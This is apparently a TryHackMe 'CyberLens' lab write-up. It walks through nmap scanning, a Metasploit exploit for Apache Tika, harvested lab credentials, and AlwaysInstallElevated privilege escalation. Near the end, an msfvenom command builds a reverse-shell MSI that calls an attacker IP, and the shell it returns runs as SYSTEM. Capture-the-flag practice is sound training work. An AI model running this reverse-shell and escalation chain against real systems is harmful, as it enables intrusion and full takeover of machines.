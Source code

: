 https://tryhackme.com/r/room/cyberlensp6
<code>
### Enumeration Services

┌──(duke㉿kali)-[~/Documents/THM_CyberLens]
└─$ nmap  -sV -p-   cyberlens.thm
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-22 04:57 CDT
Nmap scan report for cyberlens.thm (10.10.136.194)
Host is up (0.032s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 219.74 seconds

## Found exploit for Jetty 8.y.z-SNAPSHOT - Apache Tika 1.17
use Metasploit to get reverse shell



Apache24\conf\extra\httpd-ssl.conf:228:#     file needs this password: `xxj31ZMTZzkVA'.


### Found credentials for user CyberLens
C:\Users\CyberLens\Documents\Management>more CyberLens-Management.txt
more CyberLens-Management.txt
Remember, manual enumeration is often key in an engagement ;)


RDP ::


CyberLens
HackSmarter123



C:\Users\CyberLens\Documents\Management>


  [+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!




### Enumeration Services via metasploid

msf6 post(windows/gather/enum_services) > run session=1

[*] Listing Service Info for matching services, please wait...
[+] New service credential detected: AJRouter is running as 'NT AUTHORITY\LocalService'
[+] New service credential detected: AmazonSSMAgent is running as 'LocalSystem'
[+] New service credential detected: CryptSvc is running as 'NT Authority\NetworkService'
[*] Found 205 Windows services matching filters

Services
========

 Name                                      Credentials                  Command   Startup
 ----                                      -----------                  -------   -------
 AJRouter                                  NT AUTHORITY\LocalService    Manual    C:\Windows\system32\svchost.exe -k LocalServiceNetworkRestricted -p
 ALG                                       NT AUTHORITY\LocalService    Manual    C:\Windows\System32\alg.exe
 AWSLiteAgent                              LocalSystem                  Auto      "C:\Program Files\Amazon\XenTools\LiteAgent.exe"
 AmazonSSMAgent                            LocalSystem                  Auto      "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"
 AppIDSvc                                  NT Authority\LocalService    Manual    C:\Windows\system32\svchost.exe -k LocalServiceNetworkRestricted -p
 AppMgmt                                   LocalSystem                  Manual    C:\Windows\system32\svchost.exe -k netsvcs -p
 AppReadiness                              LocalSystem                  Manual    C:\Windows\System32\svchost.exe -k AppReadiness -p
 AppVClient                                LocalSystem                  Disabled  C:\Windows\system32\AppVClient.exe

## PrivEsc

### Found AlwaysInstallElevated “lazy admin” misconfiguration known as AlwaysInstallElevated.

AlwaysInstallElevated is a functionality that offers ALL users on a Windows operating system the ability to automatically run any MSI file with elevated privileges.

PS C:\Users\CyberLens\Desktop\PowerSploit\Privesc> Get-RegistryAlwaysInstallElevated
True
PS C:\Users\CyberLens\Desktop\PowerSploit\Privesc> Get-RegistryAutoLogon


DefaultDomainName    : CHANGE-MY-HOSTN
DefaultUserName      : CyberLens
DefaultPassword      :
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
                                                                                                                                                                                                                                           
                                                                                                                                                                                                                                           
### Create reverseshell installer                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[~/Documents/THM_CyberLens]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.30.202 LPORT=4433 -a x64 --platform Windows -f msi -o evil.msi
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: evil.msi
                                                                                                                                         
### Run listener
└─$ nc -lvnp 4433                
listening on [any] 4433 ...

### run installer

connect to [10.9.30.202] from (UNKNOWN) [10.10.174.109] 49875
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami
whoami
nt authority\system




<\code>
